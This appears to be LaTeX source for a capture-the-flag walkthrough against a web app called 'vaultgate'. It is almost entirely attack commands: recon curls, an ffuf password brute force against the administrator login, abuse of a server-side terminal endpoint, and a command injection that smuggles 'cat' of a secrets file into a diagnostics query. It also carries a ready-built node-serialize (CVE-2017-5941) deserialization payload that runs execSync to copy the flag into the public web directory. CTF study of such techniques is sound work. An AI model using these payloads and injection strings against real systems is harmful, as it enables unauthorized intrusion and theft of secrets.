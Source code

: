 \documentclass[11pt,a4paper]{article}
\begin{document}
\subsection{Recon (HTTPS)}
\begin{lstlisting}[style=bash]
curl -sSI <URL>/                      # headers: server, x-powered-by, x-railway-edge
curl -s   <URL>/robots.txt            # Disallow: /admin /api /internal /terminal
curl -s   <URL>/api/status            # leaks node-serialize 0.0.4 (Path 2)
curl -s   <URL>/api/users/4           # IDOR: administrator (Path 1)
ffuf -u <URL>/FUZZ -w /usr/share/wordlists/dirb/common.txt -mc 200,301,302,401,403
\end{lstlisting}

\subsection{Path 1 over HTTPS: brute force -> console -> command injection}
\begin{lstlisting}[style=bash]
# 1) User enumeration then brute force the password parameter
ffuf -w ctf-wordlist.txt -X POST \
     -H 'Content-Type: application/x-www-form-urlencoded' \
     -d 'username=administrator&password=FUZZ' \
     -u <URL>/login -fr 'Incorrect password'

# 2) Log in, keep the session cookie
curl -s -c jar -X POST <URL>/login -d 'username=administrator&password=winter2024'

# 3) Pivot: the maintenance console runs commands server-side and returns output
curl -s -b jar <URL>/api/terminal -H 'Content-Type: application/json' \
     -d '{"command":"ss -lntp"}'          # note 127.0.0.1:8079

# 4) Command injection in the loopback diagnostics service -> flag in the response
curl -s -b jar <URL>/api/terminal -H 'Content-Type: application/json' \
     --data-raw '{"command":"curl \"http://127.0.0.1:8079/api/diag?host=127.0.0.1;cat /opt/vaultgate/secrets/flag.txt\""}'
\end{lstlisting}

\subsection{Path 2 over HTTPS: node-serialize RCE (file-write exfil)}
No reverse shell needed -- have the payload copy the flag into the served
\texttt{public/} directory, then fetch it:
\begin{lstlisting}[style=bash]
# Build the CVE-2017-5941 cookie (pre-auth). The IIFE copies the flag to public/.
COOKIE=$(node -e "const p='{\"rce\":\"_\$\$ND_FUNC\$\$_function(){require(\'child_process\').execSync(\'cp /opt/vaultgate/secrets/flag.txt /opt/vaultgate/app/public/p.txt\')}()\"}';process.stdout.write(Buffer.from(p).toString('base64'))")
curl -s -o /dev/null -H "Cookie: vg_prefs=$COOKIE" <URL>/   # triggers RCE
curl -s <URL>/p.txt                                          # flag
\end{lstlisting}
\end{document}
